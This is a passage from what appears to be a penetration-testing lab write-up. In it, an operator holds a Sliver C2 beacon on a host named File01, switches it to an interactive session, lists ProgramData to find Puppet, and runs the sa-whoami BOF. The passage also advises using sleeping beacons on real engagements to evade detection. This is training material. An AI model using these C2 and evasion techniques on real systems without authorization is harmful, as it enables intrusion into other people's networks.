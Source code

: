 We can now either interact with the beacon or switch to a faster interactive session. For this lab I'm going to work with a session but note that on real engagements working with a beacon is usually preferred for evasion purposes. Beacons sleep between command executions and most c2 frameworks apply obfuscation while those sleeps are occurring. When switching to interactive session, no sleeps occur anymore so this evasion component is lost. Let's switch to the session then:

```terminal

[*] Active beacon puppet-mtls (56d068c7-b273-4b0e-aabf-327b0a632eb0)

sliver (puppet-mtls) > interactive

[*] Using beacon's active C2 endpoint: mtls://pm01.puppet.vl:8443
[*] Tasked beacon puppet-mtls (71bf6b46)
[*] Session 6e7673eb puppet-mtls - 10.10.144.230:50522 (File01) - windows/amd64 - Thu, 17 Oct 2024 13:21:43 CEST

sliver (puppet-mtls) > use 6e7673eb

[*] Active session puppet-mtls (6e7673eb-db33-4756-b7e9-8e9238c92aa4)

sliver (puppet-mtls) >
```

We are now going to do some local enumeration, first of all browsing the file system we note that puppet is installed:

```terminal
sliver (puppet-mtls) > cd c:\\programdata

[*] C:\programdata

sliver (puppet-mtls) > ls

C:\programdata (17 items, 4.6 KiB)
==================================
...
drwxrwxrwx  Puppet                                                     <dir>    Sat Oct 12 04:42:37 -0700 2024
drwxrwxrwx  PuppetLabs                                                 <dir>    Fri Oct 11 06:07:15 -0700 2024
...
```

[Puppet](https://www.puppet.com/) is a tool for configuration management - in a way similar to our c2 framework :) This means there is somewhere a puppet server which is controlling machines of the environment. Next we want to know which context we are running in - to see this we are going to run the `sa-whoami` beacon object file (bof):

```terminal
sliver (puppet-mtls) > sa-whoami

[*] Successfully executed sa-whoami (coff-loader)
[*] Got output:

UserName		SID
====================== ====================================
PUPPET\Bruce.Smith	S-1-5-21-3066630505-2324057459-3046381011-1126


GROUP INFORMATION                                 Type                     SID                                          Attributes
================================================= ===================== ============================================= ==================================================
PUPPET\Domain Users                               Group                    S-1-5-21-3066630505-2324057459-3046381011-513 Mandatory group, Enabled by default, Enabled group,
```